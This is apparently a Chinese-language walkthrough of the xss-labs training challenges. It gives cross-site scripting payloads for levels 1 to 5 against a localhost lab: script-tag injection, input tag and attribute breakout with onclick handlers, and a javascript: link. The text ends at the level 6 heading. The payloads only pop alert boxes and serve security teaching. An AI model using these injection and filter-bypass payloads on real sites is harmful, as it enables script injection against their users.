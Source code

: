 
## 解题思路简洁总结：

### 第 01 关：文本解析为 HTML

解题思路：直接注入 JS

```html
http://localhost/xss-labs/level1.php?name=<script>alert()</script>
```



### 第 02 关：input 标签 value 注入

解题思路：闭合 input 标签 + 注入JS

```js
// 符号 "> 用于闭合 input 标签，即构成 <input name=keyword  value="">
"><script>alert()</script>
```



### 第 03 关：htmlspecialchars() 的弱点

解题思路：value 标签属性闭合 + 注入事件属性

```js
// 第 1 个单引号用于与 value 属性的第一个单引号构成闭合, 即构成 value=''
// 第 2 个单引号用于与 value 属性的第二个单引号构成闭合, 即构成 onclick='alert()'
' onclick='alert()
```



### 第 04 关：没有过滤双引号

解题思路：value 标签属性闭合 + 注入事件属性

```js
// 第 1 个双引号用于与 value 属性的第一个双引号构成闭合, 即构成 value=""
// 第 2 个双引号用于与 value 属性的第二个双引号构成闭合, 即构成 onclick="alert()"
" onclick="alert()
```



### 第 05 关：href 的危险

解题思路：标签闭合 + href属性 + JS伪协议 

```js
// 符号 "> 用于闭合 input 标签, 即构成 <input name="keyword" value="">
"> <a href=javascript:alert()>hack it</a>
```



### 第 06 关：很蠢的字符过滤，大小写混合绕过
